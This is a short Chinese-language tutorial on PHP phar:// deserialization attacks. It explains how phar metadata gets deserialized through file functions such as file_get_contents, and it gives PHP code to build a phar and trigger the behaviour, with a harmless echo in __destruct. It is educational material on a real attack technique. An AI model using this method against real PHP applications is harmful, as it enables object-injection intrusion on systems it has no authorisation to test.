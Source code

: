 反序列化攻击必须满足两个点。

1.必须要有unserialize()函数

2.unserialize()函数的参数必须可控。



phar://攻击使我们不依靠unserialize()函数也可以发动攻击。

原理： phar 文件包在 生成时会以序列化的形式存储用户自定义的 meta-data ，配合 phar:// 我们就能在文件系统函数 file_exists() is_dir() 等参数可控的情况下实现自动的反序列化操作，于是我们就能通过构造精心设计的 phar 包在没有 unserailize() 的情况下实现反序列化攻击，从而将 PHP 反序列化漏洞的触发条件大大拓宽了，降低了我们 PHP 反序列化的攻击起点。



构造：phar包

```javascript
<?php
// 合法创建一个phar文件
class TestObject{
}
@unlink("phar.phar");
$phar=new Phar("phar.phar");//后缀名必须为phar

$phar->startBuffering();

$phar->setStub("<php __HALT_COMPILER(); ?>");

$o=new TestObject();

$phar->setMetadata($o);//将自定义的meta-data存入manifest

$phar->addFromString("test.txt","test");//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

phar包的内容：



![](images/7DF63B30045E42DE9EF937DA380D3268clipboard.png)

其中还有序列化代码。



phar包的利用：

```javascript
<?php
class TestObject{
    public function __destruct(){
        echo "hack attack!";
    }
}

$filename='phar://phar.phar/test.txt';
file_get_contents($filename);
```

当访问该php文件时。执行反序列化：

![](images/432DFF0649EC49E8ADB85D225F021554clipboard.png)

参考资料：

https://www.freebuf.com/column/151447.html

https://www.k0rz3n.com/2018/11/19/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E6%B7%B1%E5%85%A5%E7%90%86%E8%A7%A3PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/